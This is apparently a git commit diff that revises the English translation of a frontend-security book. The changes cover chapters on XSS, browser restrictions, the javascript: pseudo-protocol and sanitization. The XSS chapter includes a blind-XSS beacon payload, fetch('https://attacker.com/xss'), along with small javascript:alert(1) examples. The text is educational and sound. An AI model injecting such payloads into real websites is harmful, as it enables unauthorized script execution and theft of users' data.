

feat: finished first 5 posts

diff --git a/i18n/en/docusaurus-plugin-content-docs/current/ch1/03-xss.md b/i18n/en/docusaurus-plugin-content-docs/current/ch1/03-xss.md
@@ -6,7 +6,7 @@ sidebar_position: 3
 
 In the preface of the first article, I mentioned that frontend security is not just about XSS, there are many interesting things to explore. However, XSS itself is quite fascinating and is commonly known as "frontend security". So, let's start with XSS as it is an essential topic that can teach you some things you may not have noticed before.
 
-From this point onwards, let's officially dive into the first chapter: "Starting with XSS for Frontend Security".
+From this point onwards, let's officially dive into the first chapter: "Starting with XSS".
 
 ## The Origin of XSS
 
@@ -26,7 +26,7 @@ Now, let's take a look at what XSS is.
 
 XSS stands for Cross-site scripting. It is not called CSS because CSS already stands for Cascading Style Sheets.
 
-From today's perspective, the name XSS may not be entirely accurate because many XSS attacks are not limited to being "Cross-site". I will explain the difference between "site" and "origin" later. This is crucial knowledge in frontend security.
+From today's perspective, the name XSS may not be entirely accurate because many XSS attacks are not limited to being "Cross-site". I will explain the difference between "site" and "origin" later in this series. This is crucial knowledge in frontend security.
 
 In simple terms, XSS allows attackers to execute JavaScript code on other people's websites.
 
@@ -56,7 +56,7 @@ This is why some people advocate storing authentication tokens in cookies rather
 
 If a website does not use the `HttpOnly` flag, one can use `document.cookie` or the updated `cookieStore` API to retrieve the website's cookies. Even if stealing is not possible, one can directly use `fetch()` to call APIs and see what functionalities can be manipulated on the website.
 
-For example, let's say YouTube has an XSS vulnerability. Attackers can exploit this vulnerability to add or delete videos, steal viewing history and backend data, and perform almost any action that a normal user can do.
+For example, let's say YouTube has an XSS vulnerability. Attackers can exploit this vulnerability to add or delete videos, steal viewing history and other data, and perform almost any action that a normal user can do.
 
 Have you ever wondered why many websites require re-entering the current password when changing passwords? Haven't we already logged in? Why do we need to enter it again? Do I not know my own password when changing it?
 
@@ -137,13 +137,13 @@ Although it may seem useless, when combined with other vulnerabilities, it is po
 
 Blind XSS means "XSS executed in a place and at a time you cannot see."
 
-Let's give another example. Suppose there is an e-commerce platform, and after testing, you find that there are no issues in any field and no XSS vulnerabilities are found. However, the e-commerce platform has an internal backend where all order data can be viewed, and this backend has a vulnerability. They forgot to encode the name field, so XSS can be executed using the name field.
+Let's give another example. Suppose there is an e-commerce platform, and after testing, you find that there are no issues in any field and no XSS vulnerabilities are found. However, the e-commerce platform has an internal portal where all order data can be viewed, and this portal has a vulnerability. They forgot to encode the name field, so XSS can be executed using the name field.
 
-In this case, we usually wouldn't know during testing because I don't have access to the backend, and I may not even know it exists. To test this situation, you need to change the content of the XSS payload from `alert()` to a payload that sends a packet, such as `fetch('https://attacker.com/xss')`. This way, when the XSS is triggered in an invisible place, it can be observed from the server.
+In this case, we usually wouldn't know during testing because I don't have access to the internal system, and I may not even know it exists. To test this situation, you need to change the content of the XSS payload from `alert()` to a payload that sends a packet, such as `fetch('https://attacker.com/xss')`. This way, when the XSS is triggered in an invisible place, it can be observed from the server.
 
 There are some ready-made services like [XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter-express) that provide a platform for you to conveniently observe whether XSS is triggered. If triggered, it will return the triggered URL and other information on the screen.
 
-Speaking of actual cases, rioncool22 reported a vulnerability to Shopify in 2020: [Blind Stored XSS Via Staff Name](https://hackerone.com/reports/948929). They added an employee in Shopify's merchant backend and inserted an XSS payload in the name field. Although it did not trigger in the Shopify merchant backend, it triggered in Shopify's internal backend, and they received a reward of $3000.
+Speaking of actual cases, rioncool22 reported a vulnerability to Shopify in 2020: [Blind Stored XSS Via Staff Name](https://hackerone.com/reports/948929). They added an employee in Shopify's merchant portal and inserted an XSS payload in the name field. Although it did not trigger in the Shopify merchant portal, it triggered in Shopify's internal portal, and they received a reward of $3000.
 
 ## Conclusion
 

diff --git a/i18n/en/docusaurus-plugin-content-docs/current/ch1/02-browser.md b/i18n/en/docusaurus-plugin-content-docs/current/ch1/02-browser.md
@@ -11,25 +11,25 @@ The biggest difference in web frontend is that the code runs on the browser. The
 
 For web frontend, its execution environment is the browser.
 
-In the example below, the outermost black circle represents the operating system, and the two green applications run on top of the operating system. The one on the right represents the browser, and the web frontend runs on top of the browser. The deeper the layer, the more restrictions there are:
+In the example below, the outermost black square represents the operating system, and the two green applications run on top of the operating system. The one on the right represents the browser, and the web frontend runs on top of the browser. The deeper the layer, the more restrictions there are:
 
 ![](pics/02-01.png)
 
 It is important to remember this point in order to understand why there are things that web frontend cannot do. It's not that I don't want to do it, but the browser doesn't allow me to do it. For example, the backend server can easily perform file read and write operations, but it may not be achievable in web frontend. Why is that? Because the browser doesn't allow us to do it.
 
-Why can I see others writing about __ (please fill in), but I can't find a way to do it in frontend? It is very likely because the browser does not allow you to do it.
+Why can I see others implementing features about ____ (fill in anything), but I can't find a way to do it in frontend? It is very likely because the browser does not allow you to do it.
 
 In summary:
 
-> If the browser doesn't give it to you, you can't get it. If you can't get it, you can't get it.
+> If the browser doesn't give it to you, you can't get it. You just can't.
 
 So what security restrictions does the browser impose? What does it limit? Here are a few examples.
 
-## Prohibit Active Access to Local Files
+## Prohibit Proactive Access to Local Files
 
 For the backend, its code runs directly on the operating system, which means it is just a regular application. If there are no special permission restrictions, it can basically do whatever it wants. The whole machine is its playground.
 
-But there are many restrictions for frontend. For example, it cannot "actively" read and write files on the computer. Let's talk about what is possible. You can use `<input type=file>` to allow users to select a file, and then use `FileReader` to read the contents of the file, like this:
+But there are many restrictions for frontend. For example, it cannot "proactively" read and write files on the computer. Let's talk about what is possible. You can use `<input type=file>` to allow users to select a file, and then use `FileReader` to read the contents of the file, like this:
 
 ``` html
 <input type="file" onchange="show(this)">
@@ -324,7 +324,7 @@ main();
 </html>
 ```
 
-Since the vulnerability exists within V8, you can see that the code above performs many operations that may seem incomprehensible. These operations are usually designed to satisfy certain conditions that trigger issues in V8. However, providing a detailed explanation is beyond the scope of this translation. If you're interested, you can refer to the detailed analysis written by the GitHub security team: [Chrome in-the-wild bug analysis: CVE-2021-30632](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/)
+Since the vulnerability exists within V8, you can see that the code above performs many operations that may seem incomprehensible. These operations are usually designed to satisfy certain conditions that trigger issues in V8. However, providing a detailed explanation is beyond the scope of this article. If you're interested, you can refer to the detailed analysis written by the GitHub security team: [Chrome in-the-wild bug analysis: CVE-2021-30632](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/)
 
 By the way, some engineers who are not familiar with the limitations of JavaScript often try to accomplish things that are fundamentally impossible with JavaScript.
 

diff --git a/i18n/en/docusaurus-plugin-content-docs/current/ch1/05-javascript-protocol.md b/i18n/en/docusaurus-plugin-content-docs/current/ch1/05-javascript-protocol.md
@@ -22,7 +22,7 @@ Now let's move on to the main topic of this post: "javascript: pseudo protocol".
 
 ## What is the javascript: pseudo protocol?
 
-The English name for the pseudo protocol is "pseudo protocol," where "pseudo" refers to pseudo code, which is like a virtual code.
+The word "pseudo" refers to pseudo code, which is like a virtual code.
 
 Compared to "real protocols" like HTTP, HTTPS, or FTP, the pseudo protocol is more like a special protocol unrelated to the network. Examples of pseudo protocols include `mailto:` and `tel:`.
 
@@ -74,7 +74,7 @@ The correct approach is to check if the URL is in the format of a YouTube video 
 
 If you think the above feature is not very common, try inputting your own blog or Facebook URL on a profile page and adding a hyperlink to the page. This feature becomes more common, right?
 
-This is an easily overlooked area. I myself discovered this vulnerability in [Hahow](https://zeroday.hitcon.org/vulnerability/ZD-2020-00903):
+This is an easily overlooked area. I myself discovered this vulnerability in [Hahow](https://zeroday.hitcon.org/vulnerability/ZD-2020-00903), an online course platform in Taiwan:
 
 ![](pics/05-01.png)
 
@@ -94,7 +94,7 @@ Therefore, if you write like this in React, it will cause issues:
 import React from 'react';
 
 export function App(props) {
-  // 假設底下的資料是來自於使用者
+  // Assume the following data comes from the user input
   const href = 'javascript:alert(1)'
   return (
     <a href={href}>click me</a>
@@ -127,7 +127,7 @@ const link = ref('javascript:alert(1)')
 </template>
 ```
 
-This will also successfully execute JavaScript. This attack method is mentioned in Vue's documentation, called [URL Injection](https://vuejs.org/guide/best-practices/security.html#potential-dangers). It is recommended that users handle URL validation and processing on the backend rather than waiting until the frontend.
+This will also successfully execute JavaScript. This attack method is mentioned in Vue's documentation, called [URL Injection](https://vuejs.org/guide/best-practices/security.html#potential-dangers). It is recommended that developers handle URL validation and processing on the backend rather than waiting until the frontend.
 
 If you need to handle it on the frontend, it is suggested to use the [sanitize-url](https://github.com/braintree/sanitize-url) library.
 
@@ -154,7 +154,7 @@ I actually discovered this vulnerability on another website called Matters News.
 
 ![](pics/05-02.png)
 
-After clicking the login button, a function called `redirectToTarget` is called, and the code for this function is as follows:
+After clicking the confirm button, a function called `redirectToTarget` is called, and the code for this function is as follows:
 
 ``` js
 /**
@@ -373,13 +373,11 @@ As developers, it is crucial to be constantly aware of these issues and handle t
 Lastly, I leave a small question for everyone: What is the problem with the following code? It doesn't necessarily have to be an XSS vulnerability; any security-related issue counts:
 
 ``` js
-// 這是一個可以在 profile 頁面嵌入自己 YouTube 影片的功能
+// This is a feature that users can embed their favorite YouTube videos in their profile page
 const url = 'value from user'
 
-// 確保是 YouTube 影片網址的開頭
+// Make sure it's YouTube video URL
 if (url.startsWith('https://www.youtube.com/watch')) {
   document.querySelector('iframe').src = url
 }
 ```
-
-References: [Issues to Consider When Implementing Redirect Functionality: Open Redirect](https://blog.huli.tw/2021/09/26/what-is-open-redirect/)

diff --git a/i18n/en/docusaurus-plugin-content-docs/current/intro.md b/i18n/en/docusaurus-plugin-content-docs/current/intro.md
@@ -47,7 +47,7 @@ Chapter 3: Attacks without JavaScript
 Chapter 4: Cross-site attacks  
 Chapter 5: Other interesting topics  
 
-The target audience for this series includes friends interested in security and front-end engineers. It is assumed that readers have at least some basic technical knowledge, such as understanding the difference between front-end and back-end and having a basic understanding of HTML, CSS, and JavaScript.
+The target audience for this series includes front-end engineers and people interested in security. It is assumed that readers have at least some basic technical knowledge, such as understanding the difference between front-end and back-end and having a basic understanding of HTML, CSS, and JavaScript.
 
 In the world of security, knowledge is crucial. There are things you don't know that you don't know. When developing, you may unknowingly introduce a security vulnerability by not knowing that a certain way of writing code is problematic. I hope that through this series of articles, you can learn some new knowledge. If it sparks your interest in front-end security, that's great. But even if it doesn't, I hope it can at least show you a different aspect of front-end development and make you feel what I felt when I first encountered security - in simple words, "Wow, how did I not know about these things before?"
 
@@ -55,12 +55,14 @@ Lastly, the field of information security is vast and deep. If there are any tec
 
 ## The Origin of This Book
 
-I started writing this series because of the [2023 iT Ironman Contest](https://ithelp.ithome.com.tw/2023ironman/event). It is a competition where you need to publish articles continuously for 30 days. That's why this book contains 30 articles. After completing the challenge, I extracted the content and built this website using Docusaurus for easier access to the full content.
+I started writing this series because of an online event in Taiwan called [2023 iT Ironman Contest](https://ithelp.ithome.com.tw/2023ironman/event). It is a competition where you need to publish articles continuously for 30 days. That's why this book contains 30 articles. After completing the challenge, I extracted the content and built this website using Docusaurus for easier access to the full content.
+
+All the articles are written in my mother tongue, traditional chinese, and the translation is done by ChatGPT.
 
 ## About Me
 
 ![](./pics/huli-logo-1080.jpg)
 
-You can refer to my blog directly: https://blog.huli.tw/about/
+You can refer to my blog for more details: https://blog.huli.tw/en/about/
 
 Twitter: https://twitter.com/aszx87410

diff --git a/i18n/en/docusaurus-plugin-content-docs/current/ch2/06-sanitization.md b/i18n/en/docusaurus-plugin-content-docs/current/ch2/06-sanitization.md
@@ -15,10 +15,10 @@ There are some subtle differences between this and the previously mentioned "enc
 Before getting into the main topic, let's take a look at the answer to the previous post. At the end of the previous post, I posted a piece of code and asked if anyone had any questions:
 
 ``` js
-// 這是一個可以在 profile 頁面嵌入自己 YouTube 影片的功能
+// This is a feature that users can embed their favorite YouTube videos in their profile page
 const url = 'value from user'
 
-// 確保是 YouTube 網址的開頭
+// Make sure it's YouTube video URL
 if (url.startsWith('https://www.youtube.com/watch')) {
   document.querySelector('iframe').src = url
 }
